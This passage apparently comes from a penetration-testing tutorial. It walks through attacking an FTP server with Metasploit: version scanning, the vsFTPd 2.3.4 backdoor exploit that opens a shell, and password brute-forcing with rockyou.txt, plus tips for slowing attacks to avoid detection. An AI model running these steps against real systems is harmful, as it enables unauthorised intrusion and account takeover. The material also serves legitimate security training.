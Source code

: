 **Usage**:

```bash
chmod +x ftp_complete_enum.sh
./ftp_complete_enum.sh 192.168.1.100
```

## Real-World Attack Scenario

### Scenario: Corporate FTP Server Compromise

```bash
# Step 1: Discover FTP service
./ftp_discovery.sh 10.10.10.50

# Step 2: Version detection reveals vulnerable vsFTPd
msf6 > use auxiliary/scanner/ftp/ftp_version
msf6 > set RHOSTS 10.10.10.50
msf6 > run
# Output: 220 (vsFTPd 2.3.4)

# Step 3: Search for exploits
msf6 > search vsftpd
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > set RHOSTS 10.10.10.50
msf6 > exploit

[*] Command shell session 1 opened

# Alternative: Brute force if no direct exploit
msf6 > use auxiliary/scanner/ftp/ftp_login
msf6 > set RHOSTS 10.10.10.50
msf6 > set USER_FILE custom_users.txt
msf6 > set PASS_FILE rockyou.txt
msf6 > run
```

## Best Practices and Considerations

### Security Considerations

1. **Rate Limiting**: Adjust brute force speed to avoid detection
2. **Service Impact**: High-speed brute force may overwhelm the service
3. **Legal Compliance**: Ensure you have permission before testing
4. **Wordlist Selection**: Use appropriate wordlists for the target environment

### Optimization Tips

```bash
# For stealthier operations
msf6 auxiliary(scanner/ftp/ftp_login) > set BRUTEFORCE_SPEED 3
msf6 auxiliary(scanner/ftp/ftp_login) > set THREADS 2

# For comprehensive testing
msf6 auxiliary(scanner/ftp/ftp_login) > set BLANK_PASSWORDS true
msf6 auxiliary(scanner/ftp/ftp_login) > set USER_AS_PASS true
```
